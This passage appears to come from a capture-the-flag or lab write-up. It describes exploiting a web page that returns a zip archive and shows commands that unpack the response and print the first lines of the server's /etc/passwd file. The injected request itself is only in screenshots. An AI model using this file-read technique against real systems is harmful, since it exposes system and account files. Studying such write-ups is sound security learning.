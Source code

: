 So, we get a bunch of replies with size 796

Let's try:


![](Pasted%20image%2020240905114933.png)

![](Pasted%20image%2020240905114951.png)our guess it that the page created a zip file with `/etc/passwd`

let's "copy to file" the response's body:

```bash
$ file response_body
response_body: Zip archive data, at least v2.0 to extract, compression method=deflate


mv response_body.zip+ response_body.zip


unzip response_body.zip
Archive:  response_body.zip
  inflating: press_package/etc/passwd


$ cat press_package/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```